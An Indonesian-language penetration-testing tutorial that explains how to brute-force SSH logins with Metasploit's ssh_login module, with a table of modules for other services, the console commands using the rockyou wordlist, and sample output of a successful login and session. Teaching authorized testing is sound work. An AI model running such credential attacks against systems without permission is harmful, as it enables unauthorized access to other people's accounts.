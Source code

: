 # Bruteforce Login Modul di Metasploit

Metasploit Framework memiliki banyak modul auxiliary yang mendukung bruteforce login terhadap berbagai layanan seperti `SSH`, `FTP`, `HTTP`, `SMB`, `dll`. Modul ini berguna untuk menguji kekuatan kredensial yang digunakan oleh target dan sering dipakai dalam fase credential access saat penetration testing.

## A. Modul-Modul Umum Bruteforce di Metasploit

| Layanan	| Modul Bruteforce |
|:--:|:--:|
| SSH	| `auxiliary/scanner/ssh/ssh_login` |
| FTP	| `auxiliary/scanner/ftp/ftp_login` |
| Telnet | `auxiliary/scanner/telnet/telnet_login` |
| SMB	| `auxiliary/scanner/smb/smb_login` |
| HTTP | `auxiliary/scanner/http/http_login` |

## B. Bruteforce SSH dengan `ssh_login`

**Langkah-langkah:**

### 1. Gunakan Modul:

```
use auxiliary/scanner/ssh/ssh_login
```

### 2. Lihat Opsi Konfigurasi:

```
show options
```

### 3. Setting Target dan Payload:

```
set RHOSTS <IP TARGET>
ser RPORT 22
set USER_FILE /usr/share/wordlists/user.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
set BRUTEFORCE_SPEED  5
set THREADS 1
set VERBOSE true
run
```

Kalu berhasil output-nya akan sepertin ini:

```
[-] 192.168.1.27:22 - Failed: 'root:'
[-] 192.168.1.27:22 - Failed: 'debian:admin'
[-] 192.168.1.27:22 - Failed: 'debian:root'
[+] 192.168.1.27:22 - Success: 'debian:debian' 'uid=1000(debian) gid=1000(debian) groups=1000(debian),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),110(bluetooth) Linux debian 6.1.0-34-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.135-1 (2025-04-25) x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.1.42:38455 -> 192.168.1.27:22) at 2025-05-09 16:16:12 +0700
```

Hasil Brute Force akan otomatis disimpan dalam database Metasploit jika aktif:

```
creds
```

Disini ada sesi meterpreter yang terbuka yakni sesi dengan ID `1`, kita bisa masuk ke sesi meterpreter-nya dengan cara:

```
session -i 1
```

Dan selamat kamu sudah masuk kedalam sistem terget:

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

pwd
/home/debian
```

Disini kamu bisa melakukan banyak perintah dan banyak hal.

**Catatan Opsi Penting**

| Opsi | Deskripsi |
|:--:|:--:|
| `RHOSTS` | IP target  |
| `RPORT` | Port SSH |
| `USERNAME` | Gunakan satu username (jika diketahui)  |
| `PASSWORD` | Gunakan satu password (jika diketahui)  |
| `USER_FILE` | File Wordlist yang berisi username  |
| `PASS_FILE` | File Wordlist yang berisi password  |
| `BRUTEFORCE_SPEED` | Kecepatan proses Brute Force |
| `THREADS`	| Jumlah thread paralel untuk mempercepat proses  |
| `VERBOSE` | Menampilkan output lebih detail (debugging)

## Tips Tambahan

- Gunakan wordlist yang relevan (hindari terlalu besar agar tidak lambat).
- Gunakan `services` untuk melihat layanan yang bisa ditargetkan:

  ```
  services -p 22 -u
  ```

- Bisa digabung dengan hasil `Nmap` yang sudah diimpor ke Metasploit.

> Jangan gunakan teknik  Brute Force ke sistem yang bukan milikmu atau tanpa izin.
